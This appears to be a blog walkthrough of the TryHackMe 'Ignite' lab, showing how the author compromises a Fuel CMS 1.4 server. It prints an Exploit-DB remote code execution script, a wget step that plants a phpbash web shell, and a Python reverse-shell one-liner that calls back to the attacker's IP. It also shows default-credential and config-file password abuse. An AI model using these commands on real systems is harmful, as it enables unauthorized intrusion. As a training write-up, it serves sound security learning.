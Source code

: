 ```yaml
---
layout: post
title:  "TryHackMe 'Ignite' Room Walkthrough"
author: Michael
tags: [ walkthrough, writeups, tryhackme ]
permalink: /ignite/
featured: false
hidden: true
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/ignite1.png
thumbnail-img: /assets/img/ignite1.png
share-img: /assets/img/ignite1.png
---
```


### RECON

The <a href="https://tryhackme.com/room/ignite">description</a> of this room indicates that we're dealing with a web server and after a full Nmap port scan, that looks like all it is. If we navigate to the respective IP address that the room gave us when the machine was deployed, you'll be welcomed with a "Welcome to Fuel CMS" landing page. This page indicates that the CMS is version 1.4 as well as some basics. It's also important to note that the default credentials for the application of `admin:admin` are listed here as well. We'll kick off a "dirb" scan of the web server but the first thing I always check for here is a robots.txt file. The robots file on this page has a lone `/fuel` entry. This URL was also noted on the main landing page. Navigating to this page yields a login.
<p><img src="/assets/img/ignite3.png"></p>

### LIGHTING THE FIRE

Whenever you're dealing with a login for something like this, remember to always keep it simple and try the low hanging fruit first. You never know when it might save you a lot of time. In this case, that was exactly what happened! The default credentials of `admin:admin` allowed me to login to the CMS. I did some poking around the app but wasn't finding any particular ways to get code execution out of the gate, so I took to the Google.

<p><img src="/assets/img/ignite2.png"></p>

It looks here like we have a code execution flaw and this version of the CMS is vulnerable to it. I pulled a copy of the exploit to my machine from <a href="https://www.exploit-db.com/exploits/47138">here</a> and then opened it up in my text editor because it's going to need some changing for it to work correctly. A portion of the code originally reads like this:

```
url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)
  ```
However if you ran this python script as is, it would not work. There are two things I personally changed. The first thing you need to do is change the url at the top. It simply needs to read http://tryhackmeIP with the IP address the room deployed the machine to. The second thing I chose to do was comment out the proxy line with a pound sign and then remove `, proxies=proxy` from the following line. This would be find if you wanted to funnel this exploit through burp, but it's not necessary. Your final code will look something closer to this:

```
url = "http://10.0.0.117"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	#proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)
  ```
Now that our code is edited, we can run it with Python. When you run it, you'll get a "cmd:" prompt. Simply type a command in there, and you should get data back like the image below. The script seems a bit broken and outputs some PHP errors, but nonetheless, we're executing code on the server.
<p><img src="/assets/img/ignite4.png"></p>
<blockquote>We ran the `whoami` command in the prompt and it output the web server user as expected: `www-data`.</blockquote>

Now, we have RCE but it's really clunky and I don't have the full shell experience, I want to elevate this RCE to a fully interactive shell experience. My personal favorite for something like this is <a href="https://github.com/Arrexel/phpbash/blob/master/phpbash.php">phpbash</a>. PHPbash allows you to run a semi-interactive shell experience right in your browser window on the web server. At this point we can print out the user flag but I am going to get to that later instead. I have the php file downloaded on my computer, I just need to transfer it to the victim machine. For this I will use both Python and wget.

First I want to open my terminal and navigate to the directory where the phpbash.php file is stored. Then I want to type `python3 -m http.server 80`. This will basically stand up a web server in whatever folder I'm in and allow others to download files out of it. Then I run `ifconfig` and I find my IP address on the tryhackme VPN. If you're on mac or linux this is usually the interface looking like `tun0` or `utun0`. Your IP address will definitely start with a 10 here. Once you have that IP address, go to your exploit where you can input commands and use:`wget http://YOURIPADDRESS/phpbash.php`. This will download phpbash into the current web server directory. You should see the HTTP requests on your terminal where you ran the http.server command. At this point you can now navigate to http://igniteIPaddress/phpbash.php and you'll have a semi-interactive, beautiful shell right there in your web browser.
<p><img src="/assets/img/ignite5.png"></p>
<blockquote>This is a much cleaner and easier way to grab user in my opinion</blockquote>

### ELEVATING OURSELVES

Typically when I get user access the first thing I want to run is `sudo -l`. There's always a chance that this can print out a list of things you're authorized to run as an elevated user. Unfortunately in this case, phpbash isn't a real terminal and it will error out if you try a lot of various privilege escalation tasks here. So, we need to get ourselves a real reverse shell. You can do this with python in phpbash. In your terminal, start a netcat listener with the command `nc -lvn 7777`. Then in phpbash, paste the following reverse shell command:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURIPADDRESS",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```

After you run that in phpbash, you should see a new message on your netcat listener and have a dollar sign. If you type `whoami` on it, you will see you now have a reverse shell as "www-data". However this shell still won't do what we want it to, so we need to get full tty for an interactive shell. First, enter this python command: `python -c 'import pty; pty.spawn("/bin/bash")'`.Then, press CTRL+Z to put the shell in the background. Next, type this command in the same window: `stty raw -echo;fg`. This will bring your shell back to the foreground with full interactive experience.
<p><img src="/assets/img/ignite6.png"></p>

NOW... I spent a lot of time at this point enumerating the machine. I pulled in scripts to examine the system, I explored kernel updates, the works. However, I will not spend substantial time on that because the solution here is much easier. Back on the main page, where the default creds were listed, there was another important piece of information. In step 2, it lists a database configuration file that you need to input a username and password into. If we navigate to that file, we will see this:
<p><img src="/assets/img/ignite7.png"></p>

That's right, and if we take that in our terminal and give it a shot:
<p><img src="/assets/img/ignite8.png"></p>

I hope this walkthrough was helpful and feel free to show me how you did it different or send any recommendations to me on Twitter!
